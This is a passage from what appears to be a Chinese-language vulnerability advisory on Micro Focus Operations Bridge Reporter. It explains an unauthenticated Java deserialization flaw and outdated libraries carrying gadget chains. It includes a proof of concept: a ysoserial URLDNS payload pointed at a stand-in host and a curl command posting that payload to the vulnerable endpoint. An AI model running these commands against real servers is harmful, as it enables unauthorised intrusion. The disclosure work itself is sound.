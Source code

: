 ```
    } else {
      postResponse(httpServletResponse, returnedresult);
    }
(...)
```

样本一：com.mercury.util.proxy.servlet.RemoteProxyServlet.doPost()

然而，我们又有一个直接的 Java 反序列化漏洞：HTTP POST 请求的主体在没有被检查或修改的情况下被作为一个对象读取。

这个漏洞与之前的漏洞相比，有一个很大的优势 -- 它可以被未经认证的攻击者触发。不幸的是，对于攻击者来说，JBoss 应用服务器的 Java classpath 不包含任何易受攻击的小工具。

可以通过使用 ysoserial 的 URLDNS 小工具来确认该漏洞:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://fakesitethatdoesntexist.com" > /tmp/payload.ser
```

```
curl -i -s -k -X $'POST' \
  -H $'Host: 10.10.10.99' \
  --data-binary @/tmp/payload.ser \
  -H $'Content-Type: application/octet-stream' -H 'Expect:' \
   $'https://10.10.10.99/topaz/kpiQueryServiceProxy'
```

这将导致发送 DNS 查询来解析 "fakesitethatdoesntexist.com"。

虽然 classpath 不包含任何开箱即用的小工具，但有足够时间和耐心的攻击者很可能能够构建一个 Java 小工具链，将这个概念证明转化为未经认证的远程代码执行。

**6：使用过时和不安全的 Java 库**

CWE-1104：使用未维护的第三方组件。

未指定 CVE

风险分类。危急

攻击载体。不适用

限制条件：无 / 不适用

受影响的产品 / 版本。

Micro Focus Operations Bridge Reporter 10.40 (早期版本可能受影响)

如果不是因为在 OBM 中使用了极其过时的 Java 库，#2、#3 和 #4 中列出的漏洞可能更难被利用。这些库中包含的 Java 小工具可以用来实现远程代码执行，就像上面描述的那样。

产品中存在许多过时的、易受攻击的库，但以下库包含了被广泛滥用的 Java 反序列化小工具。

Apache Commons BeanUtils 1.9.3

BeanShell 2.0b4

C3P0 0.9.1.2

如果这些都不存在于 classpath 中，那么要利用漏洞 #2、#3 和 #4 就会难上加难，导致出现像漏洞 #5 中描述的情况（不执行代码的概念验证），并且需要花费更多的精力去利用。

所述的三个库包含的小工具都是开箱即用的，或者只需对 ysoserial 中的有效载荷进行最小的调整，这使得它们非常容易被滥用。

**7: 默认文件夹权限不正确（导致权限升级到 SYSTEM）**
